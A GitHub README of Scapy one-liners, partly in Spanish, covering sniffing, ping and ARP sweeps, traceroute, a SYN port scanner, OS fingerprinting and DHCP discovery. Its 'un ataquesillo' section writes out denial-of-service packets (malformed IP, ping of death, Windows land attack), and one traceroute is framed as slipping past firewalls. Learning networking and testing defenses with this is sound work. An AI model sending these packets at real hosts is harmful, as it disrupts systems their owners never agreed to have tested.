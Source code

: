 # uberscapy
Scapy docs, examples, scripts and other stuff

## Contents

docs - diffrent scapy docs

examples - examples for official Scapy usage and more


## Tutorial

Official Scapy usage tutorial is located [here](http://www.secdev.org/projects/scapy/doc/usage.html)

## One line examples

Sniffing:
 
Sniffing on eth0:
```python
			sniff(iface="eth0",prn=lambda x: x.summary())
			sniff(iface="eth0",prn=lambda x: x.show())
```
	
Formated sniff output
```python
			pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
```
	
identificando puertos
	```python
		a=sniff(filter="tcp and ( port 25 or port 110 )",prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
	```
 
Ping:
```python
	srloop(IP(dst="www.google.com/30")/TCP())
```
	//con icmp bloqueado
	```python
	ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% conteasta") )
    ```
    
	//Udp Ping
	```python
	ans,unans=sr( IP(dst="192.168.1.1-10")/UDP(dport=0) )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% contesta en udp") )
    ```
Arping:
```python
	ans,unans=srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)
	ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )
```

	//normal
	```python
	arping("192.168.1.1")
    ```
    
Traceroute:
```python
	traceroute(["www.google.com","www.ust.cl","www.terra.cl","www.microsoft.com"],maxttl=20)
	result, unans=_
	result.show()
	//graficar
	result.graph(type="ps", target="|lp")
	result.graph(target="> grafico.svg")
```

tarceroute avanzado:
```python
	//saltandose cortafuegos-por el dns
	ans,unans=sr(IP(dst="terra.cl",ttl=(1,10))/TCP(dport=53,flags="S"))
	ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
```

Graficar tracert:
```python
	res,unans = traceroute(["www.ust.cl","www.santotomas.cl"],dport=[80,443],maxttl=20,retry=-2)
	//graficar
	res.graph(type="ps", target="|lp")
	res.graph(target="> grafico.svg")
```

scanner de puertos:
```python
	res,unans = sr( IP(dst="target")/TCP(flags="S", dport=(1,1024)) )
	//visualizando.
	res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
```

OS fingerprint:
```python
	ans,unans=srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))
```
un ataquesillo:
	paquete mal formado:
	
	```python
		send(IP(dst="192.168.1.1", ihl=2, version=3)/ICMP())
	```
	
	Ping of death:
	```python
		send( fragment(IP(dst="192.168.1.1")/ICMP()/("X"*60000)) )
	```
	Land attack (windows):
	```python
		send(IP(src=target,dst=target)/TCP(sport=135,dport=135))
	```
 
verificandos DHCP de la red:
```python
	conf.checkIPaddr = False
	fam,hw = get_if_raw_hwaddr(conf.iface)
	dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
	ans, unans = srp(dhcp_discover, multi=True)
	//mostando
	ans.display()
```

## Links

http://stackoverflow.com/questions/10818661/scapy-retrieving-rssi-from-wifi-packets

http://hackoftheday.securitytube.net/2013/04/wi-fi-ssid-sniffer-in-12-lines-of.html

http://hackoftheday.securitytube.net/2013/03/wi-fi-sniffer-in-10-lines-of-python.html

http://scholarworks.sjsu.edu/cgi/viewcontent.cgi?article=1191&context=etd_projects

http://pen-testing.sans.org/blog/2011/10/13/special-request-wireless-client-sniffing-with-scapy

http://raidersec.blogspot.com/2013/01/wireless-deauth-attack-using-aireplay.html

http://www.secdev.org/projects/scapy/portability.html

